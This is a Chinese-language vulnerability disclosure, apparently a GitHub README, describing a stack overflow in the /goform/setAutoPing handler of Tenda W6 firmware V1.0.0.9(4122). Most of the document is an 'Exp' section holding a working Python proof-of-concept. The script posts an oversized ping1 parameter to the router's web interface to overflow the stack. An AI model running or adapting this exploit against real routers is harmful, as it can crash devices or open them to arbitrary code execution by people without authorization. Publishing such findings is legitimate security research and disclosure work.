


# Tenda W6 栈溢出漏洞

## 设备漏洞介绍 
Tenda W6是中国深圳腾达科技（Tenda）公司的一款企业无线AP路由器。

Tenda W6 V1.0.0.9(4122) 版本中的/goform/setAutoPing存在栈溢出漏洞，攻击者可以构建ping1参数和ping2参数进行栈溢出攻击。攻击者利用该漏洞执行任意代码执行。 

固件下载地址：https://www.tenda.com.cn/download/detail-2576.html

## 漏洞位置
/goform/setAutoPing



## 漏洞利用




## Exp

```python
import requests
from pwn import *
burp0_url = "http://192.168.5.1/goform/setAutoPing"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="linkEn=1"
data1+='&ping1='+'a'*0x84
data1+='&ping2=baaaaa'
requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

```
[展示过程请看视频](./video/1.mp4)